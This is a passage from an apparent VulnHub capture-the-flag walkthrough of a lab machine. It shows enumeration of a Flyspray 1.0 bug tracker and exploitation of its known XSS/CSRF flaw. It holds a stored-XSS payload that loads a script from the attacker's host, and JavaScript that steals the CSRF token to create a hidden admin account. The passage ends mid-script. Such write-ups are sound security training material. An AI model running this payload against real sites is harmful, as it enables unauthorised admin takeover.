 5. We have to obtain some credentials before we can use this exploit
	- [Vulnhub: DevGuru 1](https://yufongg.github.io/posts/DevGuru-1/#frank---via-creds-found-in-linux--gitea-rce) also exploits Gitea Authenticated RCE

## TCP/80 (HTTP) - Flyspray 1.0 XSS/CSRF
1. View enumerated directories
	- `cgi-bin/`
		- Could not enumerate any `.cgi` files
	- `flyspray`
		![](Pasted%20image%2020220210224806.png)
		- `flyspray`
	- `posts`
		![](Pasted%20image%2020220210224903.png)
2. Create a wordlist from `/posts`
	```
	┌──(root💀kali)-[~/vulnHub/Symfonos-6.1/192.168.110.24/exploit]
	└─# cewl $ip/posts -w cewl_post.txt
	CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
	```
3. Register user `testing` & login
	![](Pasted%20image%2020220211003058.png)
4. After browsing browsing through `/flyspray`, found its version
	![](Pasted%20image%2020220211021410.png)
	- `flyspray 1.0`
4. Search exploits for `flyspray 1.0`
	
	| Exploit Title                                                        | Path                  |
	| -------------------------------------------------------------------- | --------------------- |
	| FlySpray 1.0-rc4 - Cross-Site Scripting / Cross-Site Request Forgery | php/webapps/41918.txt |
	
5. Try `php/webapps/41918.txt`
	1. Register an account
	2. Add a comment under `symfonos bug`
		![](Pasted%20image%2020220211010934.png)
	3. Login & edit 
		- Real Name: `"><script src="http://192.168.110.4/script.js"></script>`
		![](Pasted%20image%2020220211005154.png)
	4. Create `script.js` that will create an admin account, hacker:12345678
		```javascript
		var tok = document.getElementsByName('csrftoken')[0].value;

		var txt = '<form method="POST" id="hacked_form" action="index.php?do=admin&area=newuser">'
		txt += '<input type="hidden" name="action" value="admin.newuser"/>'
		txt += '<input type="hidden" name="do" value="admin"/>'
		txt += '<input type="hidden" name="area" value="newuser"/>'
		txt += '<input type="hidden" name="user_name" value="hacker"/>'
		txt += '<input type="hidden" name="csrftoken" value="' + tok + '"/>'
		txt += '<input type="hidden" name="user_pass" value="12345678"/>'
		txt += '<input type="hidden" name="user_pass2" value="12345678"/>'
		txt += '<input type="hidden" name="real_name" value="root"/>'
		txt += '<input type="hidden" name="email_address" value="root@root.com"/>'
		txt += '<input type="hidden" name="verify_email_address" value="root@root.com"/>'
		txt += '<input type="hidden" name="jabber_id" value=""/>'
		txt += '<input type="hidden" name="notify_type" value="0"/>'
		txt += '<input type="hidden" name="time_zone" value="0"/>'
		txt += '<input type="hidden" name="group_in" value="1"/>'
		txt += '</form>'
